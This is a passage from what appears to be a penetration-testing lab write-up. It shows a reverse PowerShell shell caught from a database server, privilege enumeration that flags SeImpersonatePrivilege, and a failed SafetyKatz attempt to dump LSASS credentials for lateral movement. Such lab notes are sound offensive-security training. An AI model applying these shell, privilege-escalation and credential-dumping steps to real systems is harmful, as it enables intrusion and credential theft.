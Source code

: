 ![studvm | studentuser $>](https://custom-icon-badges.demolab.com/badge/studvm-studentuser%20[%24>]-64b5f6?logo=windows11&logoColor=white)

```
[...]

172.16.6.31: inverse host lookup failed: h_errno 11004: NO_DATA
connect to [172.16.100.1] from (UNKNOWN) [172.16.6.31] 49747: NO_DATA
Windows PowerShell running as user sqlserversync on DBSERVER31
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
```
🚀

![sqlserversync | dbserver31 $>](https://custom-icon-badges.demolab.com/badge/sqlserversync-dbserver31%20[%24>]-64b5f6?logo=windows11&logoColor=white)

`$env:username`:
```
tech\sqlserversync👤
```

`$env:computername`:
```
DBSERVER31🖥️
```

`whoami /priv`:
```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege📑      Impersonate a client after authentication Enabled✅
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
🚩

---

### Domain Lateral Movement | Credential Extraction (with SafetyKatz)

11) **Credential Extraction for Domain Lateral Movement** (unsuccessful ❌)

Description: Attempted to extract **credentials** from `dbserver31.tech.finance.corp` using **SafetyKatz**, but the operation failed due to insufficient privileges. Since the session was **not running in high integrity**, access to the LSASS process was restricted. This failure highlights the necessity of obtaining elevated privileges before attempting credential extraction.

![sqlserversync | dbserver31 $>](https://custom-icon-badges.demolab.com/badge/sqlserversync-dbserver31%20[%24>]-64b5f6?logo=windows11&logoColor=white)
